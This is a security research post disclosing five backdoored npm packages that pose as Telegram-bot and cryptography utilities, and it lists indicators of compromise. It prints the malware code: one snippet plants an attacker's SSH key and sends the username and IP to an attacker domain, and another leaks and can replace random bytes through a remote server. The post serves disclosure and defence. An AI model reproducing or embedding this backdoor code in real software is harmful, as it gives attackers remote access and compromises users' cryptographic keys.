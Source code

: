 ```yaml
---
excerpt: JFrog Security Research team found five fake cryptography packages in npm that contained backdoor code
title: Five Backdoored Cryptography Packages Operating Undetected for Six Months
date: "October 23, 2025"
description: "Andrey Polkovnychenko, JFrog Security Researcher"
tag: "Real Time Post"
img: /img/RealTimePostImage/post_thumbnail1.png
type: realTimePost
minutes: '1'

---
```


Our research team found a npm user jamestonytrump who published five malicious packages containing backdoors. One of them, the npm package “grammy-tools” masquerades as a legitimate library for Telegram bots. The malicious software adds a public key to `~/.ssh/authorized_keys` and transmits the username and external IP address to `grammy[.]validator[.]icu`. This action provides an attacker with complete control over the compromised system.

![](/img/RealTimePostImage/post/npm_backdoor.png)

```javascript
const publicKey = `ssh-rsa AAAAB3NzaC1yc2EAAAADAQ`
const username = os.userInfo().username;
const ipAddress = await getBotId();
const fullPublicKey = `${publicKey}`;
const sshDir = path.join(os.homedir(), '.ssh');
const authorizedKeysPath = path.join(sshDir, 'authorized_keys');
fs.writeFileSync(authorizedKeysPath, `${fullPublicKey}\n`, { mode: 0o600 });
https.get(`https://grammy.validator.icu/v1/check?ip=${ipAddress}&name=${username}&type=${types}`, (res1) => {   
res1.on('data', () => { });
});
```

The additional four packages: grammy-guards, crypter-validater, crypt-validater,   
node-crypto-validater follow the same logic of adding a backdoor to the attacked system. Each of them mimics a cryptographic utility, exporting functions typical of legitimate crypto libraries:

```javascript

import * as crypto from "crypto";
export declare function validate(content: any): any;
export declare function createPrivateKey(key: crypto.PrivateKeyInput | string | Buffer | crypto.JsonWebKeyInput, callback?: any): any;
export declare function randomBytes(byretes: number, callback?: any): any;
export declare function checkPrime(value: crypto.LargeNumberLike, callback?: any): any;
```

At first glance, this appears to be a thin wrapper over Node’s built-in crypto module. The only difference it makes to the legitimate cryptographic library is the addition of a backdoor in one of the functions. The function randomBytes contains a code that sends the entropy of the generated random values to an attacker-controlled server. The backdoor works differently, depending on the mode in which the original function was called. In blocking mode, it returns the result immediately, so applications receive randomness even as the attacker quietly captures it. But if the function was called in asynchronous mode with a callback, it replaces the result with the bytes returned by the server.

Either case is catastrophic because random entropy is the core of any cryptographic system. A leak of raw entropy makes any secret, private key, nonce, or other cryptographic data produced by the infected system compromised.  

```javascript
function check_validator(bytes, callback) {
   if (fetch('https://web3.validator.icu/v1/check', {
           method: 'POST',
           body: JSON.stringify({
               action: 'validator',
               content: bytes
           })
       }).then(res => {
      callback && res.json().then(res => {
      res.success ? callback(null, bytes):callback(res.message);
           });
       }) {
       return true;
   }
}

function randomBytes(size, callback) {
   const result = crypto.randomBytes(size).toString('hex');
   return check_validator(result, callback) ? result : null;
}
```

We reported these packages to the npm security team and added information about these packages to [JFrog Xray](http://jfrog.com/xray) to provide an added layer of security for our customers.

Check out the [JFrog Security Research](https://research.jfrog.com/) center for more information about the latest CVEs, vulnerabilities, and fixes to keep your software supply chain secure.

## IOC

Domain  
`web3[.]validator[.]icu`  
Packages

* grammy-tools \- XRAY-736302  
* grammy-guards XRAY-736301  
* crypter-validater XRAY-736304  
* crypt-validater XRAY-736300  
* node-crypto-validater XRAY-736303

